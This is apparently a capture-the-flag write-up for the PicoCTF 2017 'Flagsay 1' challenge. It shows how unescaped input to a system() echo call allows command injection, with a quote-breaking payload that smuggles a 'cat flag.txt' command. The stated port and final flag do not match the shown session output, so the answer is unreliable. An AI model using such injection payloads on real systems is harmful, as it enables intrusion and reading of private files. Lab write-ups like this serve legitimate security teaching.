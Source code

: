 # PicoCTF_2017: Flagsay 1

**Category:** Binary
**Points:** 80
**Description:**

>I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](flagsay-1.c)! Source. Connect on shell2017.picoctf.com:51865.

**Hint:**

>System will run exactly what the program gives it

## Write-up
Another simple 1, looking at the source code reveals that whatever is inputted by the user is then `echo` by system.

    char commandBase[] = "/bin/echo \"%s\"\n";

Testing the program with random input,

	$ nc shell2017.picoctf.com 12442
	"aaa"
	               _                                        
	              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
	             //aaa                              /     
	            //                                   /      
	           //                                   /       
	          //                                   /        
	         //                                   /         
	        //                                   /          
	       //___________________________________/           
	      //                                                
	     //                                                 
	    //                                                  
	   //                                                   
	  //                                                    
	 //                                                     

We can see that input gets inside of the flag.
However, input is unescaped, so we can pass on a shell command like 

     $ nc shell2017.picoctf.com 12442
	aaaa"
	               _                                        
	              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
	             //aaaa /
	sh: 4: //: Permission denied
	sh: 5: //: Permission denied
	sh: 6: //: Permission denied
	sh: 7: //: Permission denied
	sh: 8: //: Permission denied
	sh: 9: //___________________________________/: not found
	sh: 10: //: Permission denied
	sh: 11: //: Permission denied
	sh: 12: //: Permission denied
	sh: 13: //: Permission denied
	sh: 14: //: Permission denied
	sh: 15: //: Permission denied
	sh: 17: Syntax error: Unterminated quoted string

As seen above, `"` at the end of the input breaks the code. Also, we can see the shell in the second and the following lines.

Then, we can do something like this to break the first line with characters and the command for the second line, gives the flag

    $ nc shell2017.picoctf.com 12442
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"bin/cat flag.txt
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/
	6116b5c621137949e3f70fd31f7cc29a
	//bin/cat: /: Is a directory
	sh: 5: //: Permission denied
	sh: 6: //: Permission denied
	sh: 7: //: Permission denied
	sh: 8: //: Permission denied
	sh: 9: //___________________________________/: not found
	sh: 10: //: Permission denied
	sh: 11: //: Permission denied
	sh: 12: //: Permission denied
	sh: 13: //: Permission denied
	sh: 14: //: Permission denied
	sh: 15: //: Permission denied
	sh: 17: Syntax error: Unterminated quoted string

Therefore, the flag is `2ab2050bf32e84975a10d774a919e1d0`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEzOTY2OTA1OThdfQ==
-->
